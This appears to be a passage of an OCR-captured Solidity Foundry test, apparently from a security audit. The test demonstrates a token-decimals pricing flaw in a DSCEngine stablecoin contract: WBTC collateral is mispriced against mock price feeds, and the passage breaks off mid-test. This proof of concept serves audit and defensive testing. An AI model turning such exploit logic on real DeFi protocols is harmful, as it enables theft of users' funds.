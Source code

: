```solidity
        // The exploiter is not given any WBTC.

        wethDecimals = ERC20DecimalsMock(weth).decimals();
        wbtcDecimals = ERC20DecimalsMock(wbtc).decimals();
        feedDecimals = helperConfig.FEED_DECIMALS();
    }

    /**
     * @notice This test is based on a very real possible scenario involving WETH and WBTC.
     *
     * On Ethereum mainnet, WETH and WBTC have 18 and 8 decimals, respectively.
     * The current prices of WETH and WBTC are close to $2,000 and $30,000, respectively.
     * The `DSCEngine` allows a user to borrow up to the liquidation threshold.
     * The `DSCEngine` fails to account for token decimals when computing USD prices.
     */ 
    function testExploitTokenDecimals() public {
        // Set initial prices.
        MockV3Aggregator(ethUsdPriceFeed).updateAnswer(int256(2_000 * 10**feedDecimals)); // $2,000
        MockV3Aggregator(btcUsdPriceFeed).updateAnswer(int256(30_000 * 10**feedDecimals)); // $30,000

        // A user borrows the maximum possible amount of DSC using WETH as collateral.
        vm.startPrank(user);
        uint256 amountWethDeposited = 1 * 10**wethDecimals; // 1 WETH
        uint256 expectedValueWeth = 2_000 ether; // $2,000
        uint256 amountDscFromWeth = (expectedValueWeth * LIQUIDATION_THRESHOLD) / LIQUIDATION_PRECISION;
        ERC20DecimalsMock(weth).approve(address(dsce), amountWethDeposited);
        dsce.depositCollateralAndMintDsc(weth, amountWethDeposited, amountDscFromWeth);
        assertEq(dsc.balanceOf(user), amountDscFromWeth);
        vm.stopPrank();

        // The user's 1 WETH should be worth $2,000 as we expect.
        uint256 valueWeth = dsce.getUsdValue(weth, amountWethDeposited);
        assertEq(valueWeth, expectedValueWeth);

        // Similarly, the reciprocal is true.
        uint256 amountWeth = dsce.getTokenAmountFromUsd(weth, expectedValueWeth);
        assertEq(amountWeth, amountWethDeposited);

        // Now the user borrows more DSC using WBTC collateral.
        // The flawed price computation ensures that the user can't borrow much at all, but they will anyway.
        vm.startPrank(user);
        uint256 amountWbtcDeposited = 1 * 10**wbtcDecimals; // 1 WBTC
        // This is the flaw! Given WBTC's 8 decimals, this WBTC is priced at $0.000003 instead of $30,000.
        uint256 expectedValueWbtc = 30_000 * 10**wbtcDecimals; // $0.000003 != $30,000
        uint256 amountDscFromWbtc = (expectedValueWbtc * LIQUIDATION_THRESHOLD) / LIQUIDATION_PRECISION;
        ERC20DecimalsMock(wbtc).approve(address(dsce), amountWbtcDeposited);
        dsce.depositCollateralAndMintDsc(wbtc, amountWbtcDeposited, amountDscFromWbtc);
        assertEq(dsc.balanceOf(user), amountDscFromWeth + amountDscFromWbtc);
        vm.stopPrank();

        // The user's 1 WBTC is worth far too little.
        uint256 valueWbtc = dsce.getUsdValue(wbtc, amountWbtcDeposited);
        assertEq(valueWbtc, expectedValueWbtc);

        // Similarly, the reciprocal is true.
        uint256 amountWbtc = dsce.getTokenAmountFromUsd(wbtc, expectedValueWbtc);
        assertEq(amountWbtc, amountWbtcDeposited);

```